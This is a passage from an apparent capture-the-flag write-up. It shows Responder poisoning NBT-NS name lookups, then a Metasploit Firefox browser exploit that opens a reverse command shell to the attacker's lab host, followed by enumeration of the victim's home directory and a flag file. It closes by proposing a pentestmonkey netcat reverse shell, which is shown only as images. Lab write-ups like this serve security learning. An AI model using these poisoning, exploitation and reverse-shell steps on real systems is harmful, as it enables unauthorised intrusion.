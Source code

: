 [+] Listening for events...
[*] [NBT-NS] Poisoned answer sent to 192.168.1.8 for name DISNEYWORLD (service: Workstation/Redirector)

[HTTP] Sending file files/zyad.html to 192.168.1.8


msf5 exploit(multi/browser/firefox_tostring_console_injection) >
[*] 192.168.1.8      firefox_tostring_console_injection - Gathering target information for 192.168.1.8

[*] 192.168.1.8      firefox_tostring_console_injection - Sending HTML response to 192.168.1.8

[*] Command shell session 1 opened (192.168.1.9:4444 -> 192.168.1.8:42583) at 2019-12-15 19:30:25 +0100

the session is opened!

> sessions -i 1

>id
  uid=1000(leopold) gid=1000(leopold) groups=1000(leopold),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare)

>pwd
/home/leopold


>ls -l
total 52
-rw-rw-r-- 1 leopold  leopold   44 Sep 21 18:41 browse.sh

drwxr-xr-x 2 leopold  leopold 4096 Sep 20 21:56 Desktop

drwxr-xr-x 2 leopold  leopold 4096 Sep 20 21:56 Documents

drwxr-xr-x 2 leopold  leopold 4096 Sep 20 21:56 Downloads

-rw-r--r-- 1 leopold  leopold 8445 Sep 20 21:46 examples.desktop

-rw-r--r-- 1 firefart root      23 Sep 21 19:20 flag.txt

drwxr-xr-x 2 leopold  leopold 4096 Sep 20 21:56 Music

drwxr-xr-x 2 leopold  leopold 4096 Sep 20 21:56 Pictures

drwxr-xr-x 2 leopold  leopold 4096 Sep 20 21:56 Public

drwxr-xr-x 2 leopold  leopold 4096 Sep 20 21:56 Templates

drwxr-xr-x 2 leopold  leopold 4096 Sep 20 21:56 Videos

now we are in but we need more powrfill session
so we can use netcat to achive that

## pentestmonkey reverse shell

![image](https://user-images.githubusercontent.com/24206178/154685190-fe9b98b9-b957-4c68-8872-e306d2b8d4fc.png)

![image](https://user-images.githubusercontent.com/24206178/154685201-8c8e7640-47ae-469f-b775-de519a46f3b8.png)
